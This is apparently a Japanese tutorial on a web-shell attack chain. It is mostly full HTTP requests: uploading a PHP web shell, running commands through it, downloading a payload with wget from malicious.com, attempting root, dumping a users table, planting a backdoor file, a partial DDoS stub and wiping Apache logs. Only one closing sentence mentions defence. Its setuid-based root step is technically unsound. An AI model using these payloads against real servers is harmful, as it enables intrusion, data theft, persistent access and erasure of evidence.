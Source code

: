 # LoL Webシェル攻撃技術の紹介
Webリクエスト本文を利用して侵入したファイルをWebシェル（Web Shell）に変換し、これを活用してさらに悪意のある行為を実行する具体的な攻撃技術は以下の通りです。

---

### **1. Webリクエスト本文によるファイルアップロード**
- 攻撃者はHTTP POSTリクエストを通じて、Webサーバーの特定ディレクトリ（例：`/var/www/html/`）に悪意のあるスクリプトをアップロードします。
- 例：PHPベースのWebサーバーを対象としたWebシェルのアップロード:
```http
POST /upload.php HTTP/1.1
Host: targetsite.com
Content-Type: multipart/form-data; boundary=---WebKitFormBoundary
Content-Length: 1234

---WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="webshell.php"
Content-Type: application/x-php

<?php system($_GET['cmd']); ?>
---WebKitFormBoundary--
```

- **結果:** サーバーに`webshell.php`ファイルがアップロードされ、これを通じてリモートコマンド実行が可能になります。

---

### **2. アップロードされたWebシェルの呼び出し**
- アップロードされたWebシェルをHTTP GETリクエストで呼び出し、コマンドを実行します。
- リクエスト例:
```http
GET /webshell.php?cmd=ls HTTP/1.1
Host: targetsite.com
```
- **結果:** サーバーディレクトリ内のファイル一覧が返されます。

---

### **3. 悪意のあるコードの追加ダウンロードと実行**
- Webシェルを利用してリモートURLから悪意のあるコードをダウンロードし、実行します。
- リクエスト例:
```http
GET /webshell.php?cmd=wget+http://malicious.com/payload.sh+-O+/tmp/payload.sh HTTP/1.1
Host: targetsite.com
```
- **結果:** `payload.sh`ファイルがダウンロードされ、これを実行してシステムにさらなる悪意のあるコードをインストールします。

---

### **4. 権限昇格**
- アップロードされたWebシェルを介してサーバーの権限昇格脆弱性を悪用します。
- 例：
```http
GET /webshell.php?cmd=python+-c+"import+os;os.setuid(0);os.system('/bin/bash')" HTTP/1.1
Host: targetsite.com
```
- **結果:** ルート権限を取得し、サーバー制御を掌握します。

---

### **5. データの窃取**
- Webシェルを利用してデータベース資格情報を抽出し、データベースを直接クエリします。
- 例：
```http
GET /webshell.php?cmd=mysql+-u+root+-psecret+-e+"SELECT+*+FROM+users;" HTTP/1.1
Host: targetsite.com
```
- **結果:** データベースからユーザー情報が窃取されます。

---

### **6. バックドアの設置**
- 攻撃者は持続的なアクセスを確保するためにバックドアを設置します。
- 例：
```http
GET /webshell.php?cmd=echo+'<?php+system($_GET[cmd]);?>'+>+/var/www/html/backdoor.php HTTP/1.1
Host: targetsite.com
```
- **結果:** 新たなWebシェル`backdoor.php`が生成されます。

---

### **7. 分散型サービス拒否（DDoS）攻撃の実行**
- Webシェルを使用してターゲットサーバーをボットネットの一部として活用します。
- 例：
```http
GET /webshell.php?cmd=perl+-e+'use+IO::Socket;...;+send_attack();' HTTP/1.1
Host: targetsite.com
```
- **結果:** サーバーがDDoS攻撃に利用されます。

---

### **8. ログの削除**
- 攻撃者は自身の痕跡を削除します。
- 例：
```http
GET /webshell.php?cmd=rm+-rf+/var/log/apache2/* HTTP/1.1
Host: targetsite.com
```
- **結果:** サーバーログが削除され、攻撃追跡が困難になります。

---

これらの技術は、保護されていないファイルアップロード機能、不適切な入力検証、そしてWebサーバーの脆弱性を悪用して実行されます。**適切なセキュリティ対策**によって、これらの攻撃を防ぐことが可能です。
